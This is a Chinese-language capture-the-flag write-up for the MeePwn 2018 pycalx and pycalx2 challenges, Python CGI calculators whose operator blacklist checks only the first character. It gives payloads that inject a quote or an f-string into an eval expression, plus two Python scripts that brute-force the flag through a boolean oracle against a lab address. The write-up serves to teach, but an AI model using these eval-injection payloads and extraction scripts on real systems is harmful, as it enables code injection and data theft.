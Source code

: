 bool型回显注入

1.代码审计，get_op()这个函数首先是限制运算符的有效长度为2，然后通过黑名单+，-，/，*，=，!限制了运算符的第一个字节，第二个字节没做限制。

![image](http://note.youdao.com/yws/res/1519/FC38B1E666484752A049E9321A0BDB36)

2.`calc_eval = str(repr(value1)) + str(op) + str(repr(value2))，repr()` 函数将对象转化为供解释器读取的形式，当传入不是数字是字符串的时候，会引入引号'，因为get_op仅仅过滤验证了第一位字符，因此我们可以在第二位引入单引号。 value1=a，value2=a，op=+'

3.利用source变量，判断是否等于Flag变量，因为对value1和value2做了异或，所以value1为任意字符串

构造payload：?value1=t&op=%2B%27&value2=and+source+in+FLAG%23&source=flag{

```
import string
import requests
import sys
from urllib import quote

if __name__ == '__main__':
    reg_str = string.punctuation + string.ascii_lowercase + string.ascii_uppercase + string.digits
    Flag = "flag{"
    url = "http://172.16.4.116:4320/cgi-bin/pycalx.py?value1=t&op=%2B%27&value2=+and+source+in+FLAG%23&source=" + quote(Flag)
    for i in range(10):
        for x in reg_str:
            url_t = url + quote(x)
            html = requests.get(url_t).text
            if 'True' in html:
                url = url_t
                Flag = Flag + x
                print(Flag)
                break
```

## meepwn_2018_pycalx2

1.与上一题的唯一差别就是` op = get_op(get_value(arguments['op'].value))`，op也进行了黑名单校验，所以#不能用了

2.F-strings提供了一种明确且方便的方式将python表达式嵌入到字符串中来进行格式化。`value1 = True，value2 ={source*0 if source in FLAG else 233} ，op = +f`执行代码为`'True'+f'{source*0 if source in FLAG else 233}'`

```
import string
import requests
import sys
from urllib import quote

if __name__ == '__main__':
    reg_str = string.punctuation + string.ascii_lowercase + string.ascii_uppercase + string.digits
    Flag = "flag{"
    url = "http://172.16.4.116:4320/cgi-bin/pycalx2.py?value1=True&op=%2Bf&value2=%7Bsource*0+if+source+in+FLAG+else+233%7D&source=" + quote(Flag)
    for i in range(10):
        for x in reg_str:
            url_t = url + quote(x)
            print(url_t)
            html = requests.get(url_t).text
            if 'True' in html:
                url = url_t
                Flag = Flag + x
                print(Flag)
                break
```
